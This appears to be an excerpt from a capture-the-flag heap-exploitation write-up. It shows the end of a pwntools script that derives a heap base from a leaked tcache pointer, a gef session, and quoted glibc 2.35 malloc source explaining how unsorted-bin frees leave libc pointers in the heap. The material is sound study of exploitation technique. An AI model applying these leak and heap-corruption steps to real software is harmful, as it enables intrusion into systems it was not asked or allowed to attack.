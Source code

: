 ```python
        maybe_tcache_perthread -= 0x1000
    heap_base = maybe_tcache_perthread - 0x8
    log.info(f"offset to heap base = {hex(heap_base)}")
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

## manifesting a libc pointer in the heap

So, what now?

```
gef> scan heap libc
[+] Searching for addresses in 'heap' that point to 'libc'
gef> 
```

well that sucks lmao

Usually it's fairly straightforward to get pointers into libc in the heap.  Free a chunk into unsorted bins and either side of the free list will be pointing at main_arena in libc.  

```c
// https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L1926
static struct malloc_state main_arena =
{
  .mutex = _LIBC_LOCK_INITIALIZER,
  .next = &main_arena,
  .attached_threads = 1
};


// https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L1541
#define bin_at(m, i) \
  (mbinptr) (((char *) &((m)->bins[((i) - 1) * 2]))			      \
             - offsetof (struct malloc_chunk, fd))


// https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L1680
#define unsorted_chunks(M)          (bin_at (M, 1))

// https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L4627
bck = unsorted_chunks(av);
fwd = bck->fd;
if (__glibc_unlikely (fwd->bk != bck))
	malloc_printerr ("free(): corrupted unsorted chunks");
p->fd = fwd;
p->bk = bck;
```


[heap]: 0x0000555555564ac0  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000
[heap]: 0x0000555555564ac8  ->  0x00007ffff7faace0  ->  0x0000555555585000  ->  0x0000000000000000